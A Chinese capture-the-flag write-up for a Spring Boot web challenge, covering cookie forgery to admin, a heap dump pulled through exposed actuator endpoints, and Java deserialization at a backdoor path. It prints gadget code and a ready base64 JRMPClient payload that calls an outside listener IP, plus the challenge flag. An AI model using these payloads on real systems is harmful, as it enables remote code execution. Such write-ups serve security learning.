# web5

自己写了一个简单的springboot项目

随便注册一个账号密码登录，看到提示



访问被拒绝，看来是需要获得账号密码或者提权

看到报错,知道是springboot



访问source，抓包看到cookies base64解码一下看看



直接修改成admin，下载到源码



可以看到开了management.endpoints.web.exposure.include



存在内存泄漏，我们可以访问



然后我们可以直接下载一个当前运行jar的内存快照



直接分析一下



看到一串奇怪的字符 base32解密之后得到

flag1{I_d0n_n0t_

看源码，看到路径Lunat1cs_backd00r存在一个反序列化



spring2.x自带有缺陷的jackson，可以直接打

长度限制为222 正常的bypass和缩短肯定是不行的，只能使用其他的方法

环境出网，可以打exploit/JRMPListener+payloads/JRMPClient

```java
String command = "111.229.202.164:2333";
        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {

            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(0); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(baos.toByteArray()));
```

长度224 超了



换成10进制即可

```
rO0ABXNyAC1qYXZhLnJtaS5zZXJ2ZXIuUmVtb3RlT2JqZWN0SW52b2NhdGlvbkhhbmRsZXIAAAAAAAAAAgIAAHhyABxqYXZhLnJtaS5zZXJ2ZXIuUmVtb3RlT2JqZWN002G0kQxhMx4DAAB4cHczAApVbmljYXN0UmVmAAoxODc3MzMwNTk2AAAJHQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAeA==
```

直接打就可以了







得到后半段flag



l1ke_study_jama_QAQ}

flag为

flag{I_d0n_n0t_l1ke_study_jama_QAQ}